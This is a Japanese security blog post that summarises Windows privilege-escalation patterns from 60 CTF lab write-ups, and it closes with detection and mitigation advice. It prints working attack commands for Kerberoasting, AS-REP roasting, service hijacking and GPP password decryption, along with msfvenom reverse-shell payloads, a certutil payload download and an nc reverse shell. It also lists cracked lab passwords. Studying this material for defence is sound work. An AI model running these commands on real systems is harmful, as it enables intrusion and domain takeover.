










## TL;DR

**60件のWindowsマシンWriteup**（TryHackMe 44件・HackTheBox 8件・Proving Grounds 8件）を分析した結果、6つの頻出権限昇格パターンが浮かび上がった。

**トークン悪用（SeImpersonatePrivilege → Potato / PrintSpoofer）**と**Active Directory 資格情報攻撃（Kerberoasting・AS-REP Roasting・GPP パスワード）**の2カテゴリで、観測された昇格パスの過半数を占める。

**頻度ランキング（上位）**

| 順位 | 手法 | カテゴリ | 頻度 |
|------|------|----------|------|
| 1 | SeImpersonatePrivilege 悪用（Potato / PrintSpoofer） | トークン悪用 | ★★★★★ |
| 2 | Kerberoasting（GetUserSPNs） | Active Directory | ★★★★★ |
| 3 | サービス設定不備（binPath / 弱い ACL） | ローカル設定不備 | ★★★★ |
| 4 | 書き込み可能スクリプト + 特権スケジューラー | ローカル設定不備 | ★★★★ |
| 5 | GPP / cpassword / 保存済み資格情報 | 資格情報露出 | ★★★ |
| 6 | AlwaysInstallElevated | ローカル設定不備 | ★★★ |
| 7 | AS-REP Roasting + ACL チェーン | Active Directory | ★★★ |
| 8 | カーネル / CVE エクスプロイト | 未パッチ CVE | ★★ |
| 9 | 引用符なしサービスパス | ローカル設定不備 | ★★ |
| 10 | 保存済み資格情報（Unattend.xml / レジストリ） | 資格情報露出 | ★★ |

---

## データセット概要

### プラットフォーム別 Writeup 数



### 権限昇格カテゴリ別 観測数



### カテゴリ別 手法と出現頻度

| カテゴリ | 主な手法 | 推定出現割合 |
|----------|---------|--------------|
| トークン悪用 | SeImpersonate・Potato 系・PrintSpoofer | 約 37% |
| Active Directory | Kerberoasting・AS-REP Roasting・GPP・DCSync・ACL 悪用 | 約 30% |
| ローカル設定不備 | サービス設定・ACL・AlwaysInstallElevated・スケジュールタスク | 約 25% |
| 資格情報露出 | Unattend.xml・レジストリ・ブラウザ保存パスワード | 約 20% |
| CVE / カーネル | PrintDemon・WerTrigger・カーネルエクスプロイト | 約 13% |

> ※ 1 マシンで複数手法を連鎖させることが多いため、合計は 100% を超える。

---

## 手法別 詳細解説

### 1. トークン悪用 — SeImpersonatePrivilege

**本データセットで最も頻出する Windows 権限昇格の基本プリミティブ。**

IIS・SQL Server・WinRM などのサービスアカウントには、デフォルトで `SeImpersonatePrivilege` が付与されている。このサービスを侵害した攻撃者は Potato 系エクスプロイトまたは PrintSpoofer を使い、**NT AUTHORITY\SYSTEM** へ昇格できる。

#### 確認コマンド

```powershell
whoami /priv
# 確認対象:
# SeImpersonatePrivilege   Impersonate a client after authentication   Enabled
```

#### OS バージョン別 ツール選択

| ツール | 対応 OS | 備考 |
|--------|--------|------|
| GodPotato | Win 8–11, Server 2012–2022 | 最も安定。まず試すべき第一候補 |
| SweetPotato | 全 Windows | 最適手法を自動選択 |
| PrintSpoofer | Win 10 / Server 2019 | Spooler 名前付きパイプを利用 |
| RoguePotato | Win 10 1809+ / Server 2019+ | 攻撃者側ポート 135 の転送が必要 |
| JuicyPotato | Win 10 1809 以前 | CLSID の個別指定が必要 |



**観測された事例:**
- [THM - Alfred](/posts/thm-alfred/) — Jenkins 弱認証 → `SeImpersonatePrivilege` → PrintSpoofer64 → SYSTEM
- [TechBlog - Windows Potato PrivEsc](/posts/tech-windows-potato-privesc/) — Potato 系全ツールの総合リファレンス

---

### 2. Kerberoasting

**本データセットで最も頻出する Active Directory 昇格手法。**

ドメインユーザーであれば誰でも、SPN（ServicePrincipalName）が設定されたアカウントの Kerberos サービスチケット（TGS）をリクエストできる。TGS はそのサービスアカウントのパスワードハッシュで暗号化されており、オフラインクラックが可能。

#### 攻撃フロー



#### コマンド

```bash
# SPN 列挙とチケットハッシュ取得
python3 GetUserSPNs.py -request -dc-ip $ip DOMAIN/user:'password' -outputfile krbhash.txt

# TGS ハッシュのクラック
hashcat -m 13100 -a 0 krbhash.txt /usr/share/wordlists/rockyou.txt
```

**観測された事例:**
- [HTB - Active](/posts/htb-active/) — GPP cpassword → `SVC_TGS` 取得 → Administrator を Kerberoast → `Ticketmaster1968`
- [THM - Corp](/posts/thm-corp/) — `setspn` 列挙 → Domain Admin の `fela` → クラック → `rubenF124`

---

### 3. サービス設定不備

**管理が行き届いていない Windows ホストで頻出するローカル権限昇格。**

以下の 3 パターンが繰り返し観測された。

#### 3a. サービスバイナリの ACL 弱設定（binPath 書き換え）

```cmd
sc query state= all
accesschk.exe /accepteula -uwcqv "Users" <service_name>
sc config <service_name> binPath= "C:\PrivEsc\reverse.exe"
sc stop <service_name> && sc start <service_name>
```

#### 3b. 引用符なしサービスパス

スペースを含むサービスバイナリパスに引用符がない場合、パスの各セグメントに DLL/EXE を配置することでハイジャック可能。

```cmd
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" | findstr /i /v "\""
icacls "C:\Program Files\Vuln App\"
```

#### 3c. サービス DLL ハイジャック

ディレクトリのパーミッションが弱い場合、特権サービスが読み込む DLL を置き換えて悪意のあるコードを実行できる。

**観測された事例:**
- [THM - Windows PrivEsc Arena](/posts/thm-windows-privesc-arena/) — `accesschk` でサービス発見 → binPath 書き換え → SYSTEM
- [THM - Steel Mountain](/posts/thm-steel-mountain/) — Rejetto HFS CVE → サービス設定悪用

---

### 4. 書き込み可能スクリプト + 特権スケジューラー

**SYSTEM 権限のスケジュールタスクがユーザー書き込み可能なスクリプトを実行する場合、非常に再現性が高い。**

重要なのは「書き込めること」だけでなく、「特権コンテキストで定期実行されるかどうか」の確認。

```cmd
# winPEAS で確認すべき出力例:
# File Permissions "C:\DevTools\CleanUp.ps1": Users [WriteData/CreateFiles]

# スクリプトにペイロードを追記
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1

# スケジュールタスクの発火を待ちながらリバースシェルを受け取る
rlwrap -cAri nc -lvnp 53
```



**観測された事例:**
- [THM - Windows PrivEsc](/posts/thm-windows-privesc/) — `C:\DevTools\CleanUp.ps1` 書き込み可能 → nc でSYSTEM シェル受信

---

### 5. GPP / 保存済み資格情報

#### 5a. Group Policy Preferences（cpassword）

旧来の Group Policy でローカルアカウントをデプロイする際、SYSVOL 共有の `Groups.xml` に AES 暗号化パスワード（`cpassword`）が保存されることがある。**暗号化キーは Microsoft によって公開済み**のため、ドメインユーザーであれば誰でも復号できる。

```bash
# Replication 共有から Groups.xml を取得
smbclient //$ip/Replication -N
# パス例: active.htb\Policies\...\MACHINE\Preferences\Groups\Groups.xml

gpp-decrypt "<Groups.xml の cpassword 値>"
```

**観測された事例:**
- [HTB - Active](/posts/htb-active/) — `Groups.xml` から `SVC_TGS:GPPstillStandingStrong2k18` を取得

#### 5b. Unattend.xml / Sysprep 資格情報

Windows デプロイメント用ファイルに管理者資格情報が Base64 エンコードで残っているケース。

```powershell
Get-Content C:\Windows\Panther\Unattend\Unattended.xml
# <Password><Value> を Base64 デコード
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<value>"))
```

**観測された事例:**
- [THM - Corp](/posts/thm-corp/) — `Unattended.xml` → Administrator パスワード（Base64）→ evil-winrm で Administrator 接続

---

### 6. AlwaysInstallElevated

`HKCU` と `HKLM` の両方で `AlwaysInstallElevated` が `1` に設定されている場合、一般ユーザーが SYSTEM 権限で MSI をインストールできる。

```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```bash
# 悪意のある MSI を生成
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f msi -o privesc.msi
```

```cmd
msiexec /quiet /qn /i C:\PrivEsc\privesc.msi
```

**観測された事例:**
- [THM - Windows PrivEsc Arena](/posts/thm-windows-privesc-arena/) — 両レジストリキーが有効 → MSI ペイロード → SYSTEM

---

### 7. AS-REP Roasting + ACL チェーン（Active Directory）

Kerberos 事前認証が無効なアカウントは、認証なしで AS-REP ハッシュを取得できる。BloodHound による ACL 分析と組み合わせることで、フルドメイン侵害へ到達できる。

```bash
# AS-REP ローストableアカウントの列挙
python3 GetNPUsers.py htb.local/ -no-pass -usersfile users.txt -dc-ip $ip -format hashcat

# ハッシュのクラック（モード 18200）
hashcat -m 18200 asrep.txt rockyou.txt

# BloodHound で Domain Admin への ACL パスをマップ
bloodhound-python -d htb.local -u svc-alfresco -p <password> -c All -ns $ip
```



**観測された事例:**
- [HTB - Forest](/posts/htb-forest/) — enum4linux でユーザー列挙 → `svc-alfresco` を AS-REP Roast → BloodHound ACL チェーン → DCSync → Domain Admin

---

### 8. CVE / カーネルエクスプロイト

他の手法が使えない場合、既知のカーネル脆弱性や特定 CVE が信頼性の高いパスを提供する。

| CVE | 手法 | 対象 |
|-----|------|------|
| CVE-2020-1337 | WerTrigger — WER 経由の DLL インジェクション | Windows 10 / Server 2016+ |
| MS16-032 | Secondary Logon Handle 権限昇格 | Win 7–10, Server 2008–2012 |
| MS15-051 | Win32k.sys カーネル権限昇格 | Win 7–8.1, Server 2008–2012 |
| CVE-2018-8120 | Win32k NULL ポインタ参照 | Windows 7 / Server 2008 R2 |

```bash
# CVE-2020-1337（WerTrigger）の流れ — PG Craft2
# 1. 悪意のある DLL を生成
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll -o phoneinfo.dll

# 2. MySQL の LOAD_FILE で System32 へ書き込み（chisel トンネル経由）
mysql -u root -h 127.0.0.1 -P 3306
> SELECT LOAD_FILE('C:\\Users\\Public\\phoneinfo.dll') INTO DUMPFILE "C:\\Windows\\System32\\phoneinfo.dll";

# 3. WerTrigger で DLL をロードさせる
certutil -urlcache -f http://$KALI/WerTrigger.exe WerTrigger.exe
.\WerTrigger.exe
```

**観測された事例:**
- [PG - Craft2](/posts/pg-craft2/) — Bad-ODF NTLM キャプチャ → hashcat → SMB 経由 Web シェル → chisel トンネル → CVE-2020-1337 → SYSTEM
- [THM - Retro](/posts/thm-retro/) — WordPress 資格情報再利用 → RDP → カーネルエクスプロイト → SYSTEM

---

## 列挙チェックリスト

特定手法を試みる前に、体系的な列挙パスを実施する。**winPEAS** か手動チェックリストで主要カテゴリをカバーする。

```powershell
# ── 基本情報確認 ──
whoami /all                         # トークン権限・グループメンバーシップ
systeminfo                          # OS バージョン・インストール済みパッチ
wmic qfe get Caption,HotFixID       # 適用パッチ一覧

# ── サービス / バイナリ悪用 ──
sc query state= all
accesschk.exe /accepteula -uwcqv "Users" *
wmic service get name,pathname,startmode | findstr /iv "C:\Windows\\" | findstr /iv "\""

# ── レジストリ確認 ──
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run"

# ── 資格情報探索 ──
cmdkey /list
findstr /si password *.txt *.xml *.ini *.config
Get-Content C:\Windows\Panther\Unattend\Unattended.xml

# ── スケジュールタスク ──
schtasks /query /fo LIST /v | findstr /i "task\|run as\|status"

# ── 自動列挙 ──
.\winPEASx64.exe
```

---

## 攻撃パターン別フロー

### パターン A — Web サービス → トークン悪用 → SYSTEM


*代表事例: THM Alfred・THM HackPark・THM Steel Mountain*

### パターン B — ドメインユーザー → Kerberoasting → Domain Admin


*代表事例: HTB Active・THM Corp*

### パターン C — 匿名 SMB → 資格情報露出 → 管理者


*代表事例: HTB Active（GPP）・THM Corp（Unattend.xml）*

### パターン D — AS-REP Roast → BloodHound → DCSync


*代表事例: HTB Forest*

---

## ツールリファレンス

| ツール | 用途 | 主要コマンド |
|--------|------|-------------|
| **winPEAS** | ローカル列挙 | `.\winPEASx64.exe` |
| **GodPotato** | SeImpersonate → SYSTEM | `.\GodPotato.exe -cmd "nc.exe $IP 4444 -e cmd"` |
| **PrintSpoofer** | SeImpersonate → SYSTEM | `.\PrintSpoofer64.exe -i -c cmd` |
| **accesschk.exe** | サービス / ファイル ACL 確認 | `accesschk.exe /accepteula -uwcqv "Users" *` |
| **GetUserSPNs.py** | Kerberoasting | `python3 GetUserSPNs.py -request -dc-ip $ip DOMAIN/user:pass` |
| **GetNPUsers.py** | AS-REP Roasting | `python3 GetNPUsers.py DOMAIN/ -no-pass -usersfile users.txt` |
| **BloodHound** | AD ACL パスマッピング | `bloodhound-python -d DOMAIN -u user -p pass -c All` |
| **evil-winrm** | WinRM シェル | `evil-winrm -i $ip -u user -p pass` |
| **hashcat** | オフラインハッシュクラック | `-m 13100`（Kerberoast）, `-m 18200`（AS-REP）, `-m 5600`（NetNTLMv2） |
| **responder** | NTLM キャプチャ | `sudo responder -I tun0 -v` |
| **gpp-decrypt** | GPP cpassword 復号 | `gpp-decrypt "<cpassword>"` |
| **msfvenom** | ペイロード生成 | `-f msi`, `-f dll`, `-f exe` |

---

## 検知とブルーチームへの対策

### 監視すべき Windows イベント ID

| イベント ID | 説明 | 関連手法 |
|------------|------|---------|
| 4648 | 明示的な資格情報によるログオン | トークン悪用・ラテラルムーブメント |
| 4672 | ログオン時に特権付与 | SeImpersonate 悪用 |
| 4688 | プロセス作成 | サービスアカウントから cmd.exe / powershell.exe が起動 |
| 4769 | Kerberos サービスチケットリクエスト | Kerberoasting（RC4 ダウングレード = `0x17`） |
| 4768 | Kerberos AS リクエスト | AS-REP Roasting（事前認証なし） |
| 7045 | 新規サービスインストール | 永続化 / 権限昇格 |

### 緩和策

```powershell
# 1. 不要な SeImpersonatePrivilege の削除
#    サービスアカウントには gMSA または仮想サービスアカウントを使用する

# 2. 全アカウントに Kerberos 事前認証を要求
#    （AS-REP Roasting の攻撃面を排除）
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} | Set-ADAccountControl -DoesNotRequirePreAuth $false

# 3. サービスアカウントに強力でユニークなパスワードを設定（25 文字以上）
#    定期ローテーションと TGS リクエストの RC4 ダウングレード監視

# 4. スケジュールタスク / サービス設定の書き込み可能パスを監査
icacls "C:\path\to\script.ps1"

# 5. AlwaysInstallElevated を無効化
reg add HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 0 /f
reg add HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 0 /f
```

---

## Writeup 参照インデックス

| Writeup | プラットフォーム | 主な権限昇格手法 | リンク |
|---------|----------------|----------------|-------|
| Windows PrivEsc | TryHackMe | 書き込み可能スクリプト + スケジュールタスク → SYSTEM | [→](/posts/thm-windows-privesc/) |
| Windows PrivEsc Arena | TryHackMe | サービス設定不備・AlwaysInstallElevated・引用符なしパス | [→](/posts/thm-windows-privesc-arena/) |
| Alfred | TryHackMe | Jenkins 弱認証 → SeImpersonate → PrintSpoofer | [→](/posts/thm-alfred/) |
| Corp | TryHackMe | Kerberoasting → Unattend.xml 保存資格情報 | [→](/posts/thm-corp/) |
| Retro | TryHackMe | WordPress 資格情報再利用 → RDP → カーネルエクスプロイト | [→](/posts/thm-retro/) |
| Steel Mountain | TryHackMe | Rejetto HFS CVE → サービス設定悪用 | [→](/posts/thm-steel-mountain/) |
| Active | HackTheBox | SMB null → GPP cpassword → Kerberoasting → Domain Admin | [→](/posts/htb-active/) |
| Forest | HackTheBox | enum4linux → AS-REP Roast → BloodHound → DCSync | [→](/posts/htb-forest/) |
| Craft2 | Proving Grounds | Bad-ODF NTLM キャプチャ → CVE-2020-1337 → SYSTEM | [→](/posts/pg-craft2/) |
| Potato PrivEsc ガイド | TechBlog | Potato 系全ツールリファレンス（GodPotato ～ Hot Potato） | [→](/posts/tech-windows-potato-privesc/) |

---

## まとめ — 実践で使える 5 つの教訓

1. **まず `whoami /priv` を確認する。**
   SeImpersonatePrivilege は Web / DB サービスが動く Windows ホストで最も信頼性の高い SYSTEM 到達パス。IIS や SQL Server を侵害したら真っ先に確認すること。

2. **AD 環境では SPN 列挙を最優先で行う。**
   サービスアカウントに SPN が付いており、かつパスワードが弱い場合、Kerberoasting で資格情報を入手でき、それがドメイン内で再利用されているケースが多い。

3. **SMB 匿名アクセスと SYSVOL は高価値ターゲット。**
   `Groups.xml` の GPP cpassword や `Unattend.xml` の資格情報は、数年経っても放置されていることがある。初期列挙で見落とさないようにすること。

4. **winPEAS + BloodHound が標準ツールキット。**
   winPEAS はローカル設定不備を網羅し、BloodHound は AD の攻撃面をマップする。初期侵入直後に両方を実行するのが最効率。

5. **スケジュールタスクとサービスは「実行コンテキスト」で評価する。**
   書き込み可能なファイルそのものに価値はなく、「特権アカウントで実行されるか」「どの頻度でトリガーされるか」を確認してから利用可否を判断すること。

---

## 参照リンク

- [TryHackMe - Windows PrivEsc](https://tryhackme.com/room/windows10privesc)
- [TryHackMe - Windows PrivEsc Arena](https://tryhackme.com/room/windowsprivesc20)
- [Windows Potato PrivEsc（本ブログ）](/posts/tech-windows-potato-privesc/)
- [Potatoes Windows Privesc — Jorge Lajara](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
- [GodPotato](https://github.com/BeichenDream/GodPotato)
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)
- [PayloadsAllTheThings — Windows PrivEsc](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [BloodHound](https://github.com/BloodHoundAD/BloodHound)
- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [Impacket](https://github.com/fortra/impacket)
